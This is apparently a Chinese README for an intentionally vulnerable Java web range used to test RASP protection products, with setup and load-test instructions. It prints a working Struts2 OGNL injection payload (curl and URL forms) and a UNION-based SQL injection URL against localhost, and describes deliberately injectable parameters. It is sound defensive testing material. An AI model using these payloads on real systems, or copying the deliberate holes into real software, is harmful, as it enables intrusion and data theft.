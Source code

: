 # JavaWeb RASP漏洞测试环境



## 1. 项目说明

1. RASP漏洞测试环境主要包含了两个项目:`rasp-test-springboot`和`rasp-test-struts2`，它们使用了相同的源代码分别用于测试`SpringBoot`和`Struts2`漏洞；
2. `rasp-test-core`包含了基于SpringMVC实现的所有的测试用例接口；
3. `rasp-test-jakarta-servlet`和`rasp-test-servlet`用于测试Java EE的兼容性；
4. `rasp-test-shiro`用户测试shiro漏洞；



启动`rasp-test-struts2`之后能够看到一个RASP测试导航：

<img src="images/image-20210803164543721.png" alt="image-20210803164543721" style="zoom:50%;" />

项目内置了用于性能测试的两个接口`org.javaweb.vuls.controller.IndexController.getUserByName/getSysUserByName`一个采用了传统的GET/POST传参，另一个采用了JSON方式传参：

<img src="images/image-20210803165139192.png" alt="image-20210803165139192" style="zoom:50%;" />

测试参数如下：

```bash
wrk -t200 -c500 -d30s --latency "http://localhost:8000/getUserByName.do?username=admin" 
```

JSON接口测试：

```bash
wrk -t200 -c500 -d30s --script=/Users/yz/user.lua --latency "http://localhost:8000/getSysUserByName.do" 
```

**user.lua：**

```lua
wrk.method = 'POST' 
wrk.headers['Content-Type'] = 'application/json'  
wrk.body = '{"username": "admin"}' 
```

除此之外，为了便于测试Web漏洞，在`rasp-test-struts2/src/main/webapp/modules`目录根据漏洞类型写了非常多的示例。



## 2. 靶场配置

靶场采用了Sqlite和Mysql两种数据库，如果您想安装数据库可以使用Sqlite进行测试，如果选用Mysql测试需要先创建：`javaweb-bbs`数据库，并导出项目根目录的`javaweb-bbs.sql`文件，然后修改`rasp-test-struts2/src/main/resources/config/jdbc.properties`或`rasp-test-springboot/src/main/resources/application.properties`配置文件中的数据库账号密码。


## 3. Struts2 OGNL表达式注入

`rasp-test-struts2`使用的是`Struts2 2.1.8`版本存在`Struts2`命令执行漏洞，访问的`action`是`rasp.action`可以使用`Struts2`的`Payload`进行检测，例如发送如下`Payload`服务器会返回`[/ok]`:

```
redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()}
```

如使用`curl`发送`Payload`：

```
curl -i http://localhost:8000/rasp.action -d "redirect:%24%7b%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()%7d"
```
或者使用浏览器访问(需要注意的是Tomcat8+不能使用URL传参):`http://localhost:8000/rasp.action?redirect:%24%7b%23w%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27).getWriter(),%23w.println(%27[/ok]%27),%23w.flush(),%23w.close()%7d`

![](./images/1588764042020.jpg)



## 4. SQL注入

几乎所有可以传参的地方都存在SQL注入，例如获取文章详情页中的`articleId`参数存在注入，如使用算数符获取ID为10000的文章(`articleId=100001-1`)：
<img src="./images/1588767982847.jpg" style="zoom:67%;" />

注入数据库信息：
`http://localhost:8000/getArticle.do?articleId=100001%20and%201=2%20union%20select%201,2,user(),4,version(),null,7`
<img src="./images/1588820291794.jpg" style="zoom:50%;" />

需要注意的是因为数据库查询的时候有一个字段是`private Date publishDate;`所以注入的时候需要注意数据字段类型，上述`union select`注入示例使用了`null`占位。



## 5. 其他测试用例

`rasp-test-core`项目中的`org.javaweb.vuls.controller`包下面包含了非常多的其他测试用例。